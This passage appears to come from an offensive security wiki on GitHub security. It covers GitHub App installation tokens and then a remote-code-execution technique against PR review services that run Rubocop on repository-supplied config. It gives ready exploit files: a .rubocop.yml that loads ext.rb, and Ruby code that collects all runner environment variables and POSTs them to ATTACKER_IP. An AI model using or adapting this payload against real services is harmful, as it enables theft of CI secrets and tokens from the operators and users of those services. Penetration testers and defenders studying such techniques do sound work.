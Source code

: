 Notes:
- Installation tokens inherit exactly the app’s repository‑level permissions (for example, contents: write, pull_requests: write)
- Tokens expire in ≤10 minutes, but new tokens can be minted indefinitely as long as you retain the private key
- You can also enumerate installations via the REST API (GET /app/installations) using the JWT

## Compromise & Abuse Github Action

There are several techniques to compromise and abuse a Github Action, check them here:

[[abusing-github-actions/]]

## Abusing third‑party GitHub Apps running external tools (Rubocop extension RCE)

Some GitHub Apps and PR review services execute external linters/SAST against pull requests using repository‑controlled configuration files. If a supported tool allows dynamic code loading, a PR can achieve RCE on the service’s runner.

Example: Rubocop supports loading extensions from its YAML config. If the service passes through a repo‑provided .rubocop.yml, you can execute arbitrary Ruby by requiring a local file.

- Trigger conditions usually include:
  - The tool is enabled in the service
  - The PR contains files the tool recognizes (for Rubocop: .rb)
  - The repo contains the tool’s config file (Rubocop searches for .rubocop.yml anywhere)

Exploit files in the PR:

.rubocop.yml

```yaml
require:
  - ./ext.rb
```

ext.rb (exfiltrate runner env vars):

```ruby
require 'net/http'
require 'uri'
require 'json'

env_vars  = ENV.to_h
json_data = env_vars.to_json
url       = URI.parse('http://ATTACKER_IP/')

begin
  http = Net::HTTP.new(url.host, url.port)
  req = Net::HTTP::Post.new(url.path)
  req['Content-Type'] = 'application/json'
  req.body = json_data
  http.request(req)
rescue StandardError => e
  warn e.message
end
```
